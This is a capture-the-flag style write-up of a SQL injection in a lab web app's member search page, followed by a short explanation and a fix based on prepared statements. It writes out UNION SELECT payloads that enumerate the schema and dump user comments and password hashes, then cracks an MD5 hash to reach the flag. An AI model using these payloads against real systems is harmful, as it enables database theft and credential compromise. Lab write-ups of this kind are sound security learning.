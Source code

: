 # 07 - SQL Injection Member

## Reproduce

We found an SQL Injection in member search page: `http://192.168.1.19/?page=member`

- Get the database name: `1 UNION SELECT 1, database()`
  ===> `Member_Sql_Injection`

- Get the table name: `1 UNION SELECT 1, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = char(77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110)`
  ===> `users`

- Get columns name: `1 UNION SELECT 1, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = char(77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110) AND TABLE_NAME = char(117,115,101,114,115)`
  ===>
  `{ 'user_id', 'first_name', 'last_name', 'town', 'country', 'planet', 'Commentaire', 'countersign' }`

- Let's list the `commentaire + countersign` of all the members :
  `1 UNION SELECT Commentaire,countersign FROM users`

In the comment we found this:
`Decrypt this password -> then lower all the char. Sh256 on it and it's good !`

In the countersign we found: `5ff9d0165b4f92b14994e5c685cdce28`

And that what we did :)

- Decode 5ff9d0165b4f92b14994e5c685cdce28 with MD5 ==> 'FortyTwo'
- Lowercase('FortyTwo') ==> 'fortytwo'
- Encode 'fortytwo' using Sha256 ==> Tadaaaaaa flag

## Explaination of the vulnerability

SQL injection: is a code injection technique that might destroy your database.

## Fix

- Use of Prepared Statements (with Parameterized Queries) for example in :
  - JAVA EE use: PreparedStatement() with bind variables.
  - PHP use: PDO (PHP Data Object) with strongly typed parameterized queries.
- Don't construct queries with user input whitout verifications.
